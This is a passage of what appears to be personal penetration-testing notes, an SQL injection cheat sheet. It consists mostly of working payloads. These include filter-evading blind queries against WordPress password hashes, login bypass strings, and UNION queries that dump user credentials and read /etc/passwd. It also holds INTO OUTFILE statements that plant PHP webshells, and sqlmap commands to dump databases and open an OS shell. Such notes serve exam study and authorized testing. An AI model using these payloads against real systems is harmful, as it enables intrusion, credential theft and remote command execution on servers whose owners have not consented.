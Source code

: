                 {`<string>`/*comment*/(<sql syntax>)}
                    ex. Blind Boolean:  /index.php?id={`foo`/*bar*/(select+1+from+wp_users+where+user_pass+rlike+"(^)[$].*"+limit+1)}
                    Better:  /index.php?id=@foo:=({`if`/*bar*/(select+1+from+wp_users+where+user_pass+rlike+"^[$]"+limit+1)})+union+%23%0a+distinctrow%0b+select+@foo
        *Strategy/Priorities:
            Check privileges of application -> If DBA: access filesystem, load third-party extensions, etc.
                Use database functions to read and write to the target file system
                    RevShell via overwriting an application script
                    Or write a webshell
                Other options: execute system commands or extend the database functionality to execute system commands or custom code
            Test stacked queries (esp. if blind) - https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/#StackingQueries 
        *If no injection - try a custom function -> RCE
	Authentication bypass:
		username:  admin'# ; password:   abc' OR 1=1#
		' or '1'='1
        	tom' or 1=1;#
		admin' or 1=1-- -
		abc' OR 1=1--
		Others:  https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/ or https://sushant747.gitbooks.io/total-oscp-guide/content/sql-injections.html
        	Fix "multiple row" error:   tom' or 1=1 LIMIT 1;#
	Example SQL Queries & Syntax:
		select * from accounts where username='$user' and password='$pass'
		Comment symbol: # (MySQL) or -- (standard SQL)	
	Manual Exploitation Process:  figure out structure, then extract data
		URL Parameter:
			1. Determine number of columns:
			    ?id=1 order by 1;    -> increment until error
			2. See which columns #'s are being displayed:
			    ex. if 4 columns:   ?id=1 union all select 1, 2, 3
			3. Extract data:
				?id=1 union all select 1, 2, @@version  (or version())
				union all select 1, 2, user()
				union all select 1, 2, database()
				UNION SELECT 1,concat(table_name,char(58),column_name) from information_schema.columns #
				union all select 1, 2, table_name from information_schema.tables
				    union all select 1, 2, column_name from information_schema.columns where table_name='users'
				    union all select 1, username, password from users
					or:  union select 1,2,concat(name,0x3a,password) FROM users
				Read File:  union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')
					UNION SELECT 1, load_file(/etc/passwd) #
					union select null,load_file('/etc/passwd'),null,null,null
				Make Backdoor:  
					Win:  union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/cmd.php'
						Or:  union select '<?php system($_GET[\'cmd\']); ?>',2,3,4,5,6 into outfile 'c:/inetpub/wwwroot/_0xdf.php'#
					Unix:  union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6,7,8,9 into OUTFILE '/var/www/html/cmd.php'
						Or:  ?cod=1+union+select+1,2,3,4,5,6,'<?php_system($_GET["cmd"]); ?>' into outfile '/var/www/html/cmd.php'
			    		Access:  10.11.0.22/backdoor.php?cmd=ifconfig
					Windows: try creating admin user and add to RDP group
	Automated Exploitation:
		Post:
			Capture request w/ burp & save, then:  sqlmap -r request.txt -p username
		Get:
		    sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id"
			Dump database:   sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id" --dbms=mysql --dump [-D Webapp -T Users]
			Open Shell:   sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id" --dbms=mysql --os-shell